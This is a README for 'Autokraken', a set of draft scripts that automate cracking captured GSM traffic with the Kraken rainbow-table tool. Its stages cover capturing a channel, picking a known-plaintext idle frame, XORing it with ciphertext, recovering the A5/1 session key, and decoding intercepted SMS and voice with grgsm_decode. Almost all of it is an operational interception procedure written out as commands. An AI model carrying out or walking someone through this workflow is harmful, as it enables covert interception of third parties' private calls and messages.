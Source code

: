 # Autokraken

_Warning: those are currently dirty drafts.  It works for us but would need to be heavily reviewed to work any other platform._

A set of scripts to automate the cracking of captured GSM/G2 network traffic with Kraken, and to extract SMS and voice calls out of it.  This is not frequency hopping capable.

## Requirements

Few command line utilities

        which sed
        which awk
        which grep
        which cut
        which wc

Few packages for stage 1

        apt install python3 tcpdump tshark gr-gsm -y

Optionally `gsmframedecoder` when dealing with SI5,6 instead of idling frames, but then you would also need the legacy Airprobe code to get the HEX version of the bursts

And of course Kraken with ready to serve rainbow table indexes

## Introduction

You can separate stage 0,1 and 2 for resp. capturing and cracking.  Simply send the bitstring file from the former to the latter and proceed.

## Stage 0 - capture and get the cfile(s) ready

	arfcn=

	./capture.bash $arfcn

## Stage 1 - define known plain-text frame

_requires GR-GSM and a cfile_

Extract 0C and find out about the SDCCH timeslot (TODO: and subchannel)

        cfile=/root/capture/$arfcn.cfile

        cd /root/KRAKEN/autokraken/stage1/
	./json0C $arfcn
	./parse.py 0C $cfile.0C.json

	slot=1

Look for idling frames around the Ciphering Mode Command

	./jsonXS $arfcn $slot

If you don't find the CMC it might be because there's hopping going on.  Look closer at the IA and hopping friends in SI1.

Now seek for the last known idle frame

	./parse.py XS $cfile.${slot}S.json

	plainframe=

Also have a look at Timing Advance in case it is not `x00` already.

Eventually send the bitstring file to the Kraken server.

	scp $cfile.${slot}S kraken:/root/capture/

## Stage 2 - define the cipher-text frames

_requires Kraken and the bitstring file_

	screen -S KRAKEN
	cd /root/KRAKEN/autokraken/stage2/
	string=/root/capture/$arfcn.cfile.1S
	echo $plainframe

Tune your path against Kraken and Utilities

        vi feedcrack.conf

	kraken=/root/KRAKEN/kraken

XOR plain bitstrings with cipher bitstrings

	#./getemptyframeplain $cfile.${slot}S $plainframe
	#./getemptyframecipher $cfile.${slot}S $plainframe
	./feedemptyframe $string $plainframe
	ls -lhF /root/capture/$arfcn.cfile.1S.*.emptyframe*

Feed those into Kraken interactivelty

	ls -lhF /dev/sdb2
	ls -lhF /root/KRAKEN/kraken/indexes/
	head /root/capture/$arfcn.cfile.${slot}S.$plainframe.emptyframe234

	cd /root/KRAKEN/kraken/Kraken/
	./kraken ../indexes

	crack <xored bitstring>

## Stage 2 semi-automated

        cd /root/KRAKEN/kraken/Kraken/
        ./kraken ../indexes < /root/capture/$arfcn.cfile.${slot}S.$plainframe.emptyframe234

## Stage 2 automated

	./crack $cfile.${slot}S $plainframe

## Stage 3 - verify the key

Tune the hardcoded path against Utilities

	cd /root/KRAKEN/autokraken/stage3/
	vi feedkc

	utilspath=/root/KRAKEN/kraken/Utilities

reach back to the previous frame number and xored bitstring to feed the key check

	./feedkc <xored bitstring> /root/capture/$arfcn.cfile.1S.$plainframe.emptyframe1234

COPY/PASTE THE KEY AND @ E.G.

	/root/KRAKEN/kraken/Utilities/find_kc <FOUND KEY> <BITOPS> <BURST FRAME NUMBER> <PREV BURST FRAME NUMBER> <PREV BURST XORED BITSTRING>

## Conclusion

You can now sniff into the ciphered text

	grgsm_decode --cfile=$cfile --arfcn=$arfcn --mode=SDCCH8 --timeslot=$slot --subslot=$sub \
		--a5=1 --kc=KEY-HERE

## Resources

GSM Cracking: SMS w/ Kraken – Software Defined Radio Series #16
https://www.crazydanishhacker.com/gsm-cracking-sms-kraken-software-defined-radio-series-16/

